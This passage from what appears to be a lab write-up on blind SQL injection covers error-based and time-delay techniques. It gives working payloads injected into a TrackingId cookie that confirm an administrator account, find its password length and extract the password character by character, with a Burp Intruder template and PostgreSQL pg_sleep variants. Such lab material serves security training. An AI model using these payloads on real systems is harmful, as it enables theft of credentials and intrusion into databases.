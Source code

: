   will return error 500

- check username `adminstrator` exists

      ```
      TrackingId=bnSuW7tsA8qV5OrA'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'--
      ```

  > If `username='administrator'` exists in users table CASE WHEN will run and will results an error. If doesn't exists will not run and will not get an error.

- check the length of the password

  ```
  TrackingId=bnSuW7tsA8qV5OrA'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND LENGTH(password)>1)||'--
  ```

- substring the password
  ```
  TrackingId=bnSuW7tsA8qV5OrA'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND SUBSTR(password,1,1)='a')||'--
  ```
  - then use `cluster bomb` from burp intruder for 2 position
    ```
    TrackingId=bnSuW7tsA8qV5OrA'||(SELECT+CASE+WHEN+(1%3d1)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator'+AND+SUBSTR(password,§1§,1)%3d'§b§')||'--; session=qnTkIYUBPN2z392KooAu28hxbdfMgHGa
    ```

---

## Lab - 13: Blind SQL injection with time delays

- The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

```
Cookie: TrackingId=FoIQZWgYXI9gXlMR'%3bSELECT+pg_sleep(10)--;
```

---

## Lab - 14: Blind SQL injection with time delays and information retrieval

- The database contains a different table called `users`, with columns called `username` and `password`.

- Repeat above steps and found that it is PostgreSQL database and vulnerable to time delay injection at TrackingId parameter

- ```
  Cookie: TrackingId=JnyshbWFVfxR22KS'%3bSELECT+CASE+WHEN+(1%3d1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--;
  ```

- Find the length of the password

```
Cookie: TrackingId=JnyshbWFVfxR22KS'%3bSELECT+CASE+WHEN+((SELECT+LENGTH(password)+FROM+users+WHERE+username+%3d+'administrator')>1)+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END--;
```

and found that it has 19 characters

- use intruder and find the password of the administrator
```